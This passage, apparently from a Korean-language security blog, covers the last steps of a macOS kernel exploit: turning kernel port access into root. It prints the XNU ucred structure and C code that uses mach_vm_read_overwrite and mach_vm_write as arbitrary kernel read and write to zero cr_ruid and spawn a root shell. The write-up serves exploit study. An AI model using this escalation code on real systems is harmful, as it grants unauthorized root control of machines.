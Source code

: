 이하 생략...
{% endhighlight %}
이를 통해 커널의 task 주소와 포트권한 주소를 알아냈기 때문에 해당 데이터를 유저영역에 복사하여 커널의 권한을 간접적으로 사용할 수 있다. 즉, 조작된 포트는 fake_port를 가리키고 있고 fake_port는 커널 포트 권한을 가지고있기 때문에 task_get_speical_port()를 통해 임의 포트에서 커널 포트 권한을 사용할 수 있게 된다.



#### (7) 권한 상승 (user -> root)

이제 커널의 권한을 획득하였기 때문에 AAR/AAW가 mach_vm_read_overwrite()와 mach_vm_write()를 통해 가능해졌다. 이전 블로그 포스트에도 설명했지만, UCRED 구조체의 CR_RUID를 변경하면 프로세스 권한이 변경된다. proc 구조체 내부에 `typedef struct ucred *kauth_cred_t;` 로 정의된  `kauth_cred_tp_ucred;`가 저장되어 있다.

ucred 구조체는 아래와 같기 때문에 cr_ruid 를 수정하면 된다.

{% highlight c %}
/*
 * In-kernel credential structure.
 *
 * Note that this structure should not be used outside the kernel, nor should
 * it or copies of it be exported outside.
 */
struct ucred {
	TAILQ_ENTRY(ucred)	cr_link; /* never modify this without KAUTH_CRED_HASH_LOCK */
	u_long	cr_ref;			/* reference count */
	
struct posix_cred {
	/*
	 * The credential hash depends on everything from this point on
	 * (see kauth_cred_get_hashkey)
	 */
	uid_t	cr_uid;			/* effective user id */
	uid_t	cr_ruid;		/* real user id */
	uid_t	cr_svuid;		/* saved user id */
	short	cr_ngroups;		/* number of groups in advisory list */
	gid_t	cr_groups[NGROUPS];	/* advisory group list */
	gid_t	cr_rgid;		/* real group id */
	gid_t	cr_svgid;		/* saved group id */
	uid_t	cr_gmuid;		/* UID for group membership purposes */
	int	cr_flags;		/* flags on credential */
} cr_posix;
	struct label	*cr_label;	/* MAC label */
	/* 
	 * NOTE: If anything else (besides the flags)
	 * added after the label, you must change
	 * kauth_cred_find().
	 */
	struct au_session cr_audit;		/* user auditing data */
};
{% endhighlight %}

루트 권한을 얻기 위해 데이터를 쓰는 코드는 다음과 같다:

{% highlight c %}
uint64_t cred;
mach_vm_size_t read_bytes = 8;
mach_vm_read_overwrite(kernel_port, (current_process + UCRED_GAP_IN_PROCESS), (size_t)8, (mach_vm_offset_t)(&cred), &read_bytes); // AAR in Kernel
vm_offset_t root_uid = 0;
mach_msg_type_number_t write_bytes = 8;
mach_vm_write(kernel_port, (cred + CR_RUID_GAP_IN_UCRED), &root_uid, (mach_msg_type_number_t)write_bytes); // AAW in Kernel
system("/bin/bash"); // Get Shell
{% endhighlight %}
이로써, 현재 프로세스는 루트 권한을 가진(cr_ruid가 0인) 프로세스가 된다.

